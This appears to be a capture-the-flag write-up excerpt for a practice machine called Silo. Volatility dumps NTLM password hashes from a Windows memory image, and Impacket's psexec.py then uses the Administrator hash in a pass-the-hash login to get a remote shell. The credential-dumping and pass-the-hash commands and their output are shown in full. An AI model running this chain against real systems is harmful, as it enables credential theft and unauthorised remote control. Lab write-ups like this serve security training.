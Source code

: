 
git clone https://github.com/volatilityfoundation/volatility.git
sudo python setup.py install


kali@kali:~/htb/boxes/silo/10.10.10.82$ vol.py -f SILO-20180105-221806.dmp --profile Win2012R2x64 hivelist
Volatility Foundation Volatility Framework 2.6.1
Virtual            Physical           Name
------------------ ------------------ ----
0xffffc0000100a000 0x000000000d40e000 \??\C:\Users\Administrator\AppData\Local\Microsoft\Windows\UsrClass.dat
0xffffc000011fb000 0x0000000034570000 \SystemRoot\System32\config\DRIVERS
0xffffc00001600000 0x000000003327b000 \??\C:\Windows\AppCompat\Programs\Amcache.hve
0xffffc0000001e000 0x0000000000b65000 [no name]
0xffffc00000028000 0x0000000000a70000 \REGISTRY\MACHINE\SYSTEM
0xffffc00000052000 0x000000001a25b000 \REGISTRY\MACHINE\HARDWARE
0xffffc000004de000 0x0000000024cf8000 \Device\HarddiskVolume1\Boot\BCD
0xffffc00000103000 0x000000003205d000 \SystemRoot\System32\Config\SOFTWARE
0xffffc00002c43000 0x0000000028ecb000 \SystemRoot\System32\Config\DEFAULT
0xffffc000061a3000 0x0000000027532000 \SystemRoot\System32\Config\SECURITY
0xffffc00000619000 0x0000000026cc5000 \SystemRoot\System32\Config\SAM
0xffffc0000060d000 0x0000000026c93000 \??\C:\Windows\ServiceProfiles\NetworkService\NTUSER.DAT
0xffffc000006cf000 0x000000002688f000 \SystemRoot\System32\Config\BBI
0xffffc000007e7000 0x00000000259a8000 \??\C:\Windows\ServiceProfiles\LocalService\NTUSER.DAT
0xffffc00000fed000 0x000000000d67f000 \??\C:\Users\Administrator\ntuser.dat


kali@kali:~/htb/boxes/silo/10.10.10.82$ vol.py -f SILO-20180105-221806.dmp --profile Win2012R2x64 hashdump -y 0xffffc00000028000 -s 0xffffc00000619000
Volatility Foundation Volatility Framework 2.6.1
Administrator:500:aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Phineas:1002:aad3b435b51404eeaad3b435b51404ee:8eacdd67b77749e65d3b3d5c110b0969:::



kali@kali:~/htb/boxes/silo/10.10.10.82$ psexec.py administrator@10.10.10.82 -hashes aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.82.....
[*] Found writable share ADMIN$
[*] Uploading file KDaoQUpj.exe
[*] Opening SVCManager on 10.10.10.82.....
[*] Creating service BICt on 10.10.10.82.....
[*] Starting service BICt.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

